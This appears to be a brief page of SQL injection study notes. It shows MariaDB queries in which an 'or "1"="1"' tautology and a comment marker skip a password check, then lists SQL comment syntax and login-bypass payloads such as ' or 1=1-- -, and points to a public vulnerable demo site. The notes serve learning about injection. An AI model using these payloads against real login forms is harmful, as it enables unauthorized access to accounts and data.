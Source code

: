 ```
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";# and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";-- and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```



**Comment in SQL**

- -- or -- -
- #
- /*



- ' or 1=1-- -
- ' or 1=1-- -
- ' or 1=1#
- " or 1=1--



http://demo.testfire.net/login.jsp
